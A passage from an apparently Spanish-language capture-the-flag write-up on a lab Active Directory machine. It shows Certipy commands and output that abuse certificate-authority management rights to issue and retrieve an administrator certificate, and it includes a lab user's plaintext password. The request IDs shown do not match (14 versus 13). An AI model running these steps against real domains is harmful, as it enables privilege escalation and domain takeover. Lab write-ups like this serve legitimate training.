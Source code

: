 ```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 14
Would you like to save the private key? (y/N) y
[*] Saved private key to 14.key
[-] Failed to request certificate

```

Con los permisos de "Manage CA" y "Manage Certificates", se puede proceder a emitir la solicitud de certificado fallida utilizando el comando "ca" con el parámetro "-issue-request <ID de solicitud>".

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad ca -ca 'manager-DC01-CA' -issue-request 13 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

```

Se puede recuperar el certificado emitido utilizando el comando "req" con el parámetro "-retrieve <ID de solicitud>".

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'

```

Y por último, se puede utilizar el nuevo certificado para autenticarse y obtener el HASH del usuario "administrator", pero parece que está generando un error, lo que sugiere que no estamos sincronizados con el servidor.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

```
